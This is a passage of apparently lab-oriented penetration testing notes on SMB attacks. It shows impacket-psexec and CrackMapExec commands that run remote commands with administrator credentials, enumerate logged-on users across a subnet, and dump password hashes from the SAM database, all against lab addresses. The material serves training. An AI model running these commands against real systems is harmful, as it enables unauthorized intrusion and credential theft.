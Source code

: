 ***

### <mark style="color:blue;">**Impacket PsExec**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ impacket-psexec -h


```

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ impacket-psexec administrator:'Password123!'@10.10.110.17
```
{% endcode %}

### <mark style="color:blue;">**CrackMapExec**</mark>

Another tool we can use to run CMD or PowerShell is **`CrackMapExec`**. One advantage of `CrackMapExec` is the availability to run a command on multiples host at a time. To use it, we need to specify the protocol, `smb`, the IP address or IP address range, the option `-u` for username, and `-p` for the password, and the option `-x` to run cmd commands or uppercase `-X` to run PowerShell commands.

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```
{% endcode %}

Note: If the`--exec-method` is not defined, CrackMapExec will try to execute the atexec method, if it fails you can try to specify the `--exec-method` smbexec.

<mark style="color:orange;">**Enumerating Logged-on Users**</mark>

Imagine we are in a network with multiple machines. Some of them share the same local administrator account. In this case, we could use `CrackMapExec` to enumerate logged-on users on all machines within the same network `10.10.110.17/24`, which speeds up our enumeration process.

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users

```
{% endcode %}

<mark style="color:orange;">**Extract Hashes from SAM Database**</mark>

The Security Account Manager (SAM) is a database file that stores users' passwords. It can be used to authenticate local and remote users.

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```
{% endcode %}
